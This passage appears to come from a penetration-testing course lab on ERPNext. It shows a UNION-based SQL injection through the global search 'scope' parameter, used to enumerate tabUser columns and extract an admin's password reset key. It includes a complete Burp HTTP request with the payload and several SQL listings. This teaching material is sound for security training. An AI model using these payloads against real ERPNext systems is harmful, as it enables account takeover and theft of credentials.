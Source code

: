 Based on the response, the email we used to create the admin user was discovered. This is the account that we will target for the password reset. We can enter the email in the Forgot Password field.


Selecting Send Password will create the password reset token for the user and send an email about the password reset.

Figure 41: Password Reset Complete
Figure 41: Password Reset Complete
Next, we can use the SQL injection to extract the reset key. We know that the reset key is contained in the tabUser table, but we don't know which column yet. To find the column, we will use the query in Listing 46.

SELECT COLUMN_NAME 
FROM information_schema.columns 
WHERE TABLE_NAME = "tabUser";
Listing 46 - Query to discover password reset column

Again, we need to make this conform to the UNION query.

SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "offsec_scope" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = "tabUser"#%" AND MATCH(`content`) AGAINST (\'\\"offsec\\"\' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0'
Listing 47 - Finding table name for password reset

The highlighted part displayed above is the payload that we'll send in Burp via the scope variable.


```
POST / HTTP/1.1
Host: erpnext:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: None
X-Requested-With: XMLHttpRequest
Content-Length: 172
Origin: http://erpnext:8000
Connection: close
Referer: http://erpnext:8000/
Cookie: user_image=; system_user=yes; user_id=Guest; full_name=Guest; sid=Guest

cmd=frappe.utils.global_search.web_search&text=offsec&scope=offsec_scope" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = "tabUser"#
```

From the list of columns, we notice reset_password_key. We can use this column name to extract the password reset key. We should also include the name column to ensure that we are obtaining the reset key for the correct user. The query for this is:

SELECT name COLLATE utf8mb4_general_ci, reset_password_key COLLATE utf8mb4_general_ci
FROM tabUser;
Listing 49 - Extracting the reset key query
